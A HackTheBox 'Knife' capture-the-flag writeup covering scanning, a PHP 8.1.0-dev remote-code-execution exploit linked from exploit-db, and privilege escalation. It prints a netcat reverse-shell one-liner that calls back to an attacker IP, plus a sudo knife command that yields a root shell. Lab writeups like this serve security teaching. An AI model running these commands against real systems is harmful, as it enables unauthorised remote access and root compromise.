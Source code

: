 ```yaml
---
title: Knife HackTheBox Writeup
tags: [writeup,php8,rce,hackthebox]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Knife/1.png)

## Scanning
We run nmap on all ports with scripts and software versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Knife/2.png)

## Enumeration
We use **curl** tool and we headers enumerate, we view "*PHP/8.1.0-dev*", this version have a exploit for **RCE** (Remote Code Execute).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Knife/3.png)


## Exploitation
We search exploit in "**exploit-db.com**", we download the exploit and execute:

**Exploit**: [https://www.exploit-db.com/raw/49933](https://www.exploit-db.com/raw/49933)

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Knife/4.png)

We read *user.txt* file:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Knife/5.png)

## Privilege Escalation
We open a netcat in another terminal and make it interactive with python and a couple of exports.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 443 >/tmp/f
```
In addition, we can see that by executing "*sudo -l*", we have access to the "**knife**" binary as **SUDO**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Knife/6.png)

We Google and found a way to exploit this misconfiguration to gain root access.

```bash
sudo knife exec -E 'exec "/bin/sh"'
```
We execute the statement, become root and read the file "*root.txt*".

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Knife/7.png)




